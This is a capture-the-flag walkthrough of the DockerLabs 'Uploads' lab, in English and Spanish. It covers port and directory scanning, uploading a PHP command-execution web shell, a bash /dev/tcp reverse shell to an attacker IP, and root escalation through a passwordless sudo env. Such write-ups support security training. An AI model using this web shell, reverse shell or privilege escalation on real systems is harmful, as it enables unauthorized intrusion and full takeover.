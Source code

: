 #Uploads DockerLabs
#web - https://dockerlabs.es/#/

First we do a basic port scan to the default ip address which is the *172.17.0.2*.

```shell
└─$ nmap -sV -sC -n -p- --min-rate 5000 172.17.0.2
===============================================================
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-13 00:09 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00013s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)

```

We see that port 80 is open and we enter from firefox.


We enter and see a web page with a section for uploading files.

![Captura de pantalla 2024-05-13 001149](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/289a79e0-f7c1-4cf6-808f-946ab1c4059f)

We ran a subdomain scan with gobuster to see if we found anything interesting.

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)

[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]

```

We found a subdomain *http://172.17.0.2/uploads/*.
We enter and we can see that this is where the uploaded files are hosted.

![Captura de pantalla 2024-05-13 002043](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/418a59e7-daa7-4819-b895-376a3286d882)

We create a script in ‘.php’ format with the following content:

```shell
<?php
	system($_GET['cmd']);
?>
```

Lo subimos y llamamos al archivo con un "?cmd=id" quedando de esta manera:

![Captura de pantalla 2024-05-13 204619](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/7b55fd0a-62eb-4f95-bdbc-cc921362b579)

```shell
http://172.17.0.2/uploads/cmd.php?cmd=id
```

Entramos a "https://www.revshells.com/" en esta web encontramos reverse shells ya generadas y listas para copiar y para cambiar los parametros de una manera sencilla

![Captura de pantalla 2024-05-13 204754](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/0a20f8dd-895e-4ead-8ab9-b8e171bc2423)
![Captura de pantalla 2024-05-13 204807](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/28ff216f-eaf8-4fe3-95ac-4520704adc72)


Run netcat with port 9001 as listening port:

```shell
nc -lvnp 9001
listening on [any] 9001 ...

```

We run the reverse shell so that we call the file ‘cmd.php’ and pass the above parameters ‘?cmd=id’ and now replace id with bash -c followed by two quotes and the reverse shell:

```shell
http://172.17.0.2/uploads/cmd.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.0.2.15/9001 0>%261" )

```

![Captura de pantalla 2024-05-13 210138](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/853d7ccc-3224-4c5d-8495-0247a5960d9d)

The only thing missing now is the escalation of privileges.
We check the user's permissions with:

```shell
sudo -l
```

![Captura de pantalla 2024-05-13 210530](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/449ea752-5a93-4e67-a77e-d306b1111214)

En este caso podemos ver que podemos ejecutar el binario "/usr/bin/env" siendo este usuario root como se puede apreciar y indica que no tiene contraseña entonces prodecedemos a ejecutar este binario:
In this case we can see that we can run the binary ‘/usr/bin/env’ being this user root as you can see and indicates that it has no password then prodecedemos to run this binary:
```shell
sudo env /bin/sh
```

![Captura de pantalla 2024-05-13 210851](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/6006d2f9-c5bf-44da-b6a8-e916850a9d0e)

and now we perform a whoami to find out which user we are:

```shell
whoami
```
y podremos comprobar que si que somos el usuario root.

